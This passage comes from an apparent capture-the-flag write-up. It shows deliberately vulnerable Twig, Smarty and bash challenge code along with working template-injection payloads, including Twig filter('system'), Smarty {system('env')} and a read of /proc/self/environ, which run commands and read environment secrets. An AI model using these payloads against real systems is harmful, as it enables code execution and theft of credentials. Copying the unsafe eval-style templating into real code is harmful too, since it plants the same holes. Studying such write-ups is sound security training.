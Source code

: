 ```php
echo $twig->render('index', []);
```

**Payload**: Calling the `env` binary, because RCE > SSTI :hearts:

```py
{{['env']|filter('system')}}
```


### Smarty SSTI

**Context**: Same context as the other SSTI.

```php
<?php
require __DIR__ . '/vendor/autoload.php';

$PAYLOAD = getenv('PAYLOAD') ?: 'Hello, World!';
$smarty = new Smarty();

echo $smarty->fetch('eval:' . $PAYLOAD);
```

**Payload**: At first I fetched the content of the `/proc/self/environ` file, then I went back to the good old `env` binary.

```py
{fetch file='/proc/self/environ'}
{system('env')}
```


### Bash

**Context**: Command execution where you read the flag from the environment variable `FLAG`.

```ps1
ping -c 1 '$INPUT'
```

**Payload**:

<center>
  <img src="/images/LeHACK2025/env-meme.png" alt="Description" />
</center>
